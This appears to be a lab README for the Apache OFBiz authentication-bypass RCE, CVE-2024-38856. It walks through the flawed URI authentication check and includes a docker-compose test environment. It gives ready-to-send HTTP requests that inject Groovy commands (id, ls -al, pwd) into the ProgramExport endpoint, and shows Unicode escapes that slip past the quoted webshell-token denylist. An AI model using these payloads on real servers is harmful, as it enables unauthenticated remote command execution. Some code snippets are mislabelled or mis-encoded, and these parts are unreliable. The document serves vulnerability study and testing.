




# Apache OFBIZ 인증 우회로 인해 RCE가 발생합니다(CVE-2024-38856)

[ENGLISH(영어 버전)](README_en.md)
[中文版本(중국어 버전)](README.zh-cn.md)


Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

This vulnerability occurs as a result of incomplete fixing for CVE-2023-51467. In Apache OFBiz version 18.12.11, the developers believe they have fixed the vulnerability, but in reality, they have only addressed one method of exploiting it. The Groovy expression injection still exists and allows unauthorized users to execute arbitrary commands on the server.

## root cause of vulnerability

In Apache OFBiz's URI processing mechanism, there is a root cause in the authentication process.
The authentication check is performed for requestUri, but the authentication check is not performed for overrideViewUri.

Apache OfBiz defines whether or not to authenticate in Controller.xml.
The value of the auth attribute specifies whether or not authentication is required for each entry point.
Authentication is not required if the auth attribute of the endpoint is "false", and authentication is required if it is "true".
```
<request-map uri="forgotPassword">
    <security https="true" auth="false"/>
    <response name="success" type="view" value="forgotPassword"/>
</request-map>

<request-map uri="ProgramExport">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="ProgramExport"/>
</request-map>
```

When Apache OfBiz receives a request, the server initializes the values of the path, requestUri, and overrideViewUri variables.
```
String Path = request.getPathInfo();
String requestUri = getRequestUri(path);
String overrideViewUri = getOverrideViewUri(path);
```

The getRequestUri method splits the path to "/" and returns the value of the first element (index 0).
If the path is /forgotPassword/ProgramExport, it returns the first element, forgotPassword.
That is, the requestUri value is initialized to the forgotPassword value.
```
Public static String getRequestUri(String path){
    List<String> pathInfo = StringUtil.split(path, "/");
    if (UtilValidate.isEmpty(pathInfo)) {
        Debug.logWarning("Got nothing when splitting URI: " + path, module);
        return null;
    }
    if (pathInfo.get(0).indexOf('?') > -1) {
        return pathInfo.get(0).substring(0, pathInfo.get(0).index0f('?'));
    } else {
        return pathInfo.get(0);
    }
}
```

The getOverrideViewUri method splits the path to "/", then deletes the first element and returns the second element (index 1) value.
If you look at the contents of the first box, you can see that the second element (index 1) to the end of the pathItemList is extracted.
That is, the overrideViewUri value is initialized to the ProgramExport value.
```
Public static String getRequestUri(String path){
    List<String> pathInfo = StringUtil.split(path, "/");
    if (pathItemList == null) {
        return null;
    }

    pathItemList = pathItemList.subList(1, pathItemList.size());

    String nextPage= null;
    for (String pathItem: pathItemList) {
        if (pathItem.index0f('~') != 0) {
            if (pathItem.index0f('?') > -1) {
                pathItem = pathItem.substring(0, pathItem.index0f('/'))
            }
            nextPage = (nextPage == null ? pathItem : nextPage + "/" + pathItem)
        }
    }
}
```

Final value is  "requestUri = forgotPassword, overrideViewUri = ProgramExport".
The RequestHander method performs an authentication check
A problem arises because it is performed only on the requestUri value.
That is, the authentication check can be bypassed by adding the endpoint value with the auth attribute false to the value to be entered in the requestUri.
```
public class RequestHandler {
    ...
    ...
    if(requestMap.securityAuth) {
        ...
    }
    ...
}
```

After that, the rendering proceeds with requestView, and at this time, ProgramExport is rendered to allow access to endpoints requiring authentication by bypassing authentication.
```
...
renderView(viewName, requestMap.securityExternalView, request, reponse, saveName);
...
```


참고 자료:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7 >
- <https://forum.butian.net/article/524 >
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz >
- <https://www.dottak.me/posts/2025-03-04-apache-ofbiz-1-day-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0-4-cve-2024-38856>
- <https://www.sonicwall.com/blog/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability>

## Vulnerable environment

Executing following command to start an Apache OfBiz 18.12.14 server:

```
docker-compose up
```

After a short wait, you can see the login page at https://localhost:8443/accounting.


## Prerequisites for Impact to occur

1. The endpoint to be used for the attack should be the page running the script.
2. You need to know what language the page runs the script in.

The ProgramExport service executes EntityScreens.xml to render a view of the service when an authenticated user makes a request, thereby executing a screen widget.

If you check the code in EntityScreens.xml, you can see that you run the groovy script in the script element.
```
<screen name="ProgramExport">
    <section>
        <actions>
            <set field="titleProperty" value="PageTitleEntityExportAll"/>
            <set field="tabButtonItem" value="programExport"/>
            <script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                     <screenlet>
                        <include-form name="ProgramExport" location="component://webtools/widget/MiscForms.xml"/>
                    </screenlet>
                    <screenlet>
                        <platform-specific>
                            <html><html-template location="component://webtools/template/entity/ProgramExport.ftl"/></html>
                        </platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

If you look at the ProgramExport.groovy script
If there is no groovyProgram in the request, if you are providing a default script template, you will use the corresponding script delivered in the request.
```
if (!parameters.groovyProgram) {
    groovyProgram = '''
    '''
    parameters.groovyProgram = groovyProgram
} else {
    groovyProgram = parameters.groovyProgram
}

// Add imports for script.
def importCustomizer = new ImportCustomizer()
importCustomizer.addImport("org.apache.ofbiz.entity.GenericValue")
importCustomizer.addImport("org.apache.ofbiz.entity.model.ModelEntity")
def configuration = new CompilerConfiguration()
configuration.addCompilationCustomizers(importCustomizer)

Binding binding = new Binding()
binding.setVariable("delegator", delegator)
binding.setVariable("recordValues", recordValues)

ClassLoader loader = Thread.currentThread().getContextClassLoader()
def shell = new GroovyShell(loader, binding, configuration)

if (UtilValidate.isNotEmpty(groovyProgram)) {
    try {
        // Check if a webshell is not uploaded but allow "import"
        if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
            logError("================== Not executed for security reason ==================")
            request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
            return
        }
        shell.parse(groovyProgram)
        shell.evaluate(groovyProgram)
        recordValues = shell.getVariable("recordValues")
        xmlDoc = GenericValue.makeXmlDocument(recordValues)
        context.put("xmlDoc", xmlDoc)
    } catch(MultipleCompilationErrorsException e) {
```

## Vulnerable URL

- POST /webtools/control/forgotPassword/ProgramExport
- POST /webtools/control/main/ProgramExport
- POST /webtools/control/showDateTime/ProgramExport
- POST /webtools/control/view/ProgramExport
- POST /webtools/control/TestService/ProgramExport

The /webtools/control/main page is a page that does not require authentication, so rendering proceeds.


The /webtools/control/TestService page is a page that does not require authentication, so rendering proceeds.


The /webtools/control/entitymain page is a page that requires authentication, so rendering does not proceed and a login page appears.



## PoC

### id 명령 POC
Send following request to execute command id by Groovy script:

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```


Noted that Apache Ofbiz restricts the use of the following keywords, but we can bypass this restriction using Unicode characters like \u0065xecute.

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```

### ls -al Command PoC
If you send a request by encoding the content of executing a random command (ls-al) into Unicode Escape in GroovyProgram parameters, it can be confirmed that RCE occurs.

Command (ls -al) encoding
```
grovyProgram=throw new Exception('ls -al'.execute().text);

\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u006C\u0073\u0020\u002D\u0061\u006C\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

PoC Request
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006c\u0073\u0020\u002d\u0061\u006c\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```



### pwd Command PoC

Command (pwd) encoding
```
grovyProgram=throw new Exception('pwd'.execute().text);

\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

PoC Request
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 284

groovyProgram=\u0067\u0072\u006F\u0076\u0079\u0050\u0072\u006F\u0067\u0072\u0061\u006D\u003D\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0070\u0077\u0064\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B
```

